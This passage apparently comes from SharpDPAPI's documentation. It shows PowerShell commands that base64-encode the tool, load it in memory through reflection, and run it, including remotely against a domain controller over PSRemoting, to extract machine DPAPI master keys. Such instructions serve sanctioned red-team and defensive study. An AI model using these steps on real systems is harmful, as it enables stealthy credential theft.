     [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\SharpDPAPI.exe")) | Out-File -Encoding ASCII C:\Temp\SharpDPAPI.txt

SharpDPAPI can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded SharpDPAPI assembly string):

    $SharpDPAPIAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))

The Main() method and any arguments can then be invoked as follows:

    [SharpDPAPI.Program]::Main("machinemasterkeys")

#### Sidenote Sidenote: Running SharpDPAPI Over PSRemoting

Due to the way PSRemoting handles output, we need to redirect stdout to a string and return that instead. Luckily, SharpDPAPI has a function to help with that.

If you follow the instructions in [Sidenote: Running SharpDPAPI Through PowerShell](#sidenote-running-sharpdpapi-through-powershell) to create a SharpDPAPI.ps1, append something like the following to the script:

    [SharpDPAPI.Program]::MainString("machinemasterkeys")

You should then be able to run SharpDPAPI over PSRemoting with something like the following:

    $s = New-PSSession dc.theshire.local
    Invoke-Command -Session $s -FilePath C:\Temp\SharpDPAPI.ps1

Alternatively, SharpDPAPI `/consoleoutfile:C:\FILE.txt` argument will redirect all output streams to the specified file.
